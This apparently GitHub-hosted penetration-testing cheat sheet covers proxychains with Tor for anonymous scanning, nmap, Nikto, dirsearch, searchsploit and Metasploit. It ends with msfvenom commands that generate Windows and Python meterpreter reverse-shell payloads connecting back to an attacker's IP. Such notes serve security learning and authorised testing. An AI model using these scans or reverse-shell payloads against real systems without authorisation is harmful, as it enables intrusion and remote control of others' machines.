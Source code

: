 # HackingCheatSheet
### outline
* Hacking Tools
	* [Proxychains](#Proxychains)
	* [Nmap](#Nmap)
	* [Nicto](#Nicto)
	* [Dirsearch](#Dirsearch)
	* [Exploitdb](#Exploitdb)	
	* [Metasploit](#Metasploit)
* CTF Pwn Cheatsheet
* Privilege Escalation
* Reverse Shell
## Hacking Tools
### Proxychains 
Proxychains is a tool that could let us anonymous on the internet.
* Install On Ubuntu
```
1. git clone https://github.com/rofl0r/proxychains
2. cd proxychains
3. ./configure
4. make & make install  
```
* Install On MacOS
```
1. brew install proxychains-ng 
2. close SIP
   Reboot computer and prsee "Command + R" into recovery mode.
   Press Utilities -> Terminal (At upper left).
   Enter "csrutil disable".
   Reboot.
```
* Install Tor
```
Linux : sudo apt-get install tor
MacOS : download from "https://www.torproject.org/download/"
```
* Setting Config File  
File Path :  
 	Linux : /etc/proxychains.conf  
	MacOS : /usr/local/etc/proxychains.conf
```
# proxychains.conf  VER 4.x
#
#        HTTP, SOCKS4a, SOCKS5 tunneling proxifier with DNS.


# The option below identifies how the ProxyList is treated.
# only one option should be uncommented at time,
# otherwise the last appearing option will be accepted
#
dynamic_chain
#
# Dynamic - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped)
# otherwise EINTR is returned to the app
#
#strict_chain
#
# Strict - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# all proxies must be online to play in chain
# otherwise EINTR is returned to the app
#
#round_robin_chain
#
# Round Robin - Each connection will be done via chained proxies
# of chain_len length
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped).
# the start of the current proxy chain is the proxy after the last
# proxy in the previously invoked proxy chain.
# if the end of the proxy chain is reached while looking for proxies
# start at the beginning again.
# otherwise EINTR is returned to the app
# These semantics are not guaranteed in a multithreaded environment.
#
#random_chain
#
# Random - Each connection will be done via random proxy
# (or proxy chain, see  chain_len) from the list.
# this option is good to test your IDS :)

# Make sense only if random_chain or round_robin_chain
#chain_len = 2

# Quiet mode (no output from library)
#quiet_mode

# Proxy DNS requests - no leak for DNS data
proxy_dns 

# set the class A subnet number to use for the internal remote DNS mapping
# we use the reserved 224.x.x.x range by default,
# if the proxified app does a DNS request, we will return an IP from that range.
# on further accesses to this ip we will send the saved DNS name to the proxy.
# in case some control-freak app checks the returned ip, and denies to 
# connect, you can use another subnet, e.g. 10.x.x.x or 127.x.x.x.
# of course you should make sure that the proxified app does not need
# *real* access to this subnet. 
# i.e. dont use the same subnet then in the localnet section
#remote_dns_subnet 127 
#remote_dns_subnet 10
remote_dns_subnet 224

# Some timeouts in milliseconds
tcp_read_time_out 15000
tcp_connect_time_out 80000

### Examples for localnet exclusion
## localnet ranges will *not* use a proxy to connect.
## Exclude connections to 192.168.1.0/24 with port 80
# localnet 192.168.1.0:80/255.255.255.0

## Exclude connections to 192.168.100.0/24
# localnet 192.168.100.0/255.255.255.0

## Exclude connections to ANYwhere with port 80
# localnet 0.0.0.0:80/0.0.0.0

## RFC5735 Loopback address range
## if you enable this, you have to make sure remote_dns_subnet is not 127
## you'll need to enable it if you want to use an application that 
## connects to localhost.
#localnet 127.0.0.0/255.0.0.0

## RFC1918 Private Address Ranges
# localnet 10.0.0.0/255.0.0.0
# localnet 172.16.0.0/255.240.0.0
# localnet 192.168.0.0/255.255.0.0

# ProxyList format
#       type  ip  port [user pass]
#       (values separated by 'tab' or 'blank')
#
#       only numeric ipv4 addresses are valid
#
#
#        Examples:
#
#            	socks5	192.168.67.78	1080	lamer	secret
#		http	192.168.89.3	8080	justu	hidden
#	 	socks4	192.168.1.49	1080
#	        http	192.168.39.93	8080	
#		
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4 	127.0.0.1 9050
socks5 	127.0.0.1 9150
```
* Usage
```
proxychains4 nmap www.example.com # Anonymous scanning the web server with nmap 
(When using MacOS remembering to open tor browser before using proxychains)
```
### Nmap
Scanning specific ports
```
nmap -p 80-200
```
Scanning opened port and service version
```
nmap "IP" --top-ports 1000 --open -sV
```
Scanning opened port and OS information 
```
nmap -O "IP"
```
Detect all powered-on hosts
```
nmap -sP "IP"
```
### Nicto
This is a tool for scanning the web service version and the existing vulnerabilities.
* Usage 
```
nicto -h "Target IP" -p "Target Port"
```
### Dirsearch
It is a tool that could brute force directories and files in websites.
* Install & Usage
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u "Web URL" -e *
```
### Exploitdb
This is an exploit database
* Usage
```
searchsploit linux 4 priv  # Searching existing exploit about "linux kernel 4.x privilege escalation"
```
### Metasploit
This is just an useful penetration test tool.
* Usage
```
search Apache 	# Searching the vulnerability about "Apache"
use XXXXXX    	# Using the exp
show options  	# Show the exp options
set XXX 		# Setting the options
exploit			# run the exp
```
* Meterpreter
This is a subservice in metasploit. It could help us create the malicious scripts.
```
msfvenom -p windows/meterpreter/reverse_tcp lhost="Your IP" lport="Your Port" -f reverseshell.exe
(Create a windows execute file for reversing shell)

msfvenom -p python/meterpreter/reverse_tcp LHOST="Your IP" LPORT="Your Port" -f pyterpreter.py
(Create a pyhton reverse shell script)
```


